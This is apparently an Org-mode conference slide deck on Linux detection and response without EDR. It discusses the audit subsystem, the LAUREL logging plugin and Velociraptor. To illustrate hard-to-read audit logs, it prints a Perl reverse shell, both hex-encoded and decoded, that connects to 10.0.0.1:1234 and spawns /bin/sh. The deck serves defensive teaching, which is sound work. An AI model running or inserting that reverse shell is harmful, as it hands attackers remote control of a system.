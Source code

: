#+TITLE: Detection and Response for Linux without EDR
#+AUTHOR: Hilko Bengen
#+DATE: 2024-09-13
# bengen@hilluzination.de / https://github.com/hillu / @hillu@infosec.exchange

# -> intro

* System Logs

# -> detection basics

- e.g. =/var/log/messages=, =/var/log/auth.log=
- Easy to collect
- The usual suspects: =sudo=, =ssh=, =cron=, etc.
- Need context to detect anything
- Not sufficient for catching attackers

* Beyond syslog

- Detect unusual, suspicious behavior, e.g.:
  - Webshells
  - Reverse shells
  - Reconnaissance
  - "fileless" implants injected into processes
  - BPF seems interesing for attackers
- Need better telemetry!
  - Program executions
  - File watches
  - Special case syscalls

* Linux Audit Subsystem

# -> better telemetry

- Good for logging:
  - Program execution
  - File operations
  - Syscalls
  - SELinux, AppArmor events

- Stable, boring technology!
  - In kernel since mid-2000s
  - Basic format is well documented
  - Semantics are well understood

* Linux Audit Subsystem, LOL

# -> linux audit problem

# type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"

#+begin_src sh
type=SYSCALL msg=audit(1626611363.720:348501): …
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl"
  a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24
  703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545
  245414D2C67657470726F746F62796E616D6528227463702229293B69662863
  6F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746
  F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E
  285354444F55542C223E265322293B6F70656E285354444552522C223E26532
  2293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): …
#+end_src

# type=CWD msg=audit(1626611363.720:348501): cwd="/root"
# type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
# type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
# type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
# type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174

- Parsing is hard for SIEM software
- Few filtering options

* Linux Audit Subsystem, LOL

So, what is this =EXECVE.a2=?
#+begin_src perl
use Socket; $i="10.0.0.1"; $p=1234;
socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
if (connect(S, sockaddr_in($p, inet_aton($i)))) {
open(STDIN, ">&S"); open(STDOUT, ">&S"); open(STDERR, ">&S");
exec("/bin/sh -i"); };
#+end_src

* Our solution

#+ATTR_HTML: :height 150px :align center
[[file:laurel.svg]]

"Linux Audit – Usable, Robust, Easy Logging"
- /auditd/ plugin: Parse audit log, write JSON
- Enrichment, process tracking and labelling
- Filtering capabilities
- https://github.com/threathunters-io/laurel, GPLv3

# -> detect summary

* EDR? On Linux? Interesting.

- "Our work so far has been basic, common sense"
- "Let's see if we can do better with an off-the-shelf product"

* Made for Windows.

# -> Made for Windows

- "=CreateProcess=. What is =fork=, =exec=?"
- "=root= = 'S-1-5-18'. Everybody knows that"
- "What's a numeric user ID?"
- "What are groups?"
- "Filenames are all valid Unicode. Right?"

* Response and Hunting

# -> Response

- Get context for alerts
- simple tasks
  - inspect files
  - =ps=
  - =netstat=
- Use YARA rules to hunt for specific files
- Find process anomalies

* Velociraptor

#+ATTR_HTML: :height 150px :align center
[[file:velo.svg]]
- "digital forensic and incident response tool"
- /Velociraptor Query Language/
- Some assembly required
- Excellent support
- https://docs.velociraptor.app, AGPLv3

* Support infrastructure

- Diagnosis scripts to check for misconfiguration
  - Simplify support cases
- RPM+DEB packages
  - Reduce mistakes made in installation

* Contact info

#+ATTR_HTML: :height 150px :align center
[[file:avatar.jpg]]

Hilko Bengen <bengen@hilluzination.de>

https://github.com/hillu

@hillu@infosec.exchange
